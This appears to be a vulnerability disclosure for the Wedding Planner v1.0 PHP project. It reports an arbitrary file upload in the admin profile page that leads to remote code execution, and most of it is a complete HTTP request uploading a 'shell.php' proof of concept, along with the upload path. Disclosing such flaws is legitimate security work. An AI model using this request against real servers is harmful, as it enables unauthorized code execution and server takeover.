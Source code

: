 # Wedding Planner v1.0 by pushpam02 has arbitrary code execution (RCE)

BUG_Author：李趴菜

vendor: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability url: http://ip/Wedding-Management-PHP/admin/blog_events_edit.php?id=31

Loophole location：The editing function of "Liam moore" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "users_profile.php" file.

Click "Edit My Account" to save

Request package for file upload：

```sql
POST /Wedding-Management-PHP/admin/users_profile.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management-PHP/admin/users_profile.php
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------11146289715390
Content-Length: 1065

-----------------------------11146289715390
Content-Disposition: form-data; name="profile_picture"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------11146289715390
Content-Disposition: form-data; name="firstname"

Liam
-----------------------------11146289715390
Content-Disposition: form-data; name="lastname"

Moore
-----------------------------11146289715390
Content-Disposition: form-data; name="email"

admin@mail.com
-----------------------------11146289715390
Content-Disposition: form-data; name="username"

adminliam
-----------------------------11146289715390
Content-Disposition: form-data; name="gender"

m
-----------------------------11146289715390
Content-Disposition: form-data; name="address"

Grand Meadows
-----------------------------11146289715390
Content-Disposition: form-data; name="designation"

0
-----------------------------11146289715390
Content-Disposition: form-data; name="submit"


-----------------------------11146289715390--
```

The files will be uploaded to this directory \Wedding-Management-PHP\admin\upload\users
![image](https://user-images.githubusercontent.com/54017627/183275035-99933688-74e1-4236-a955-b89a8e3b465e.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183275043-85624b9d-d472-4438-870b-a28f60632619.png)

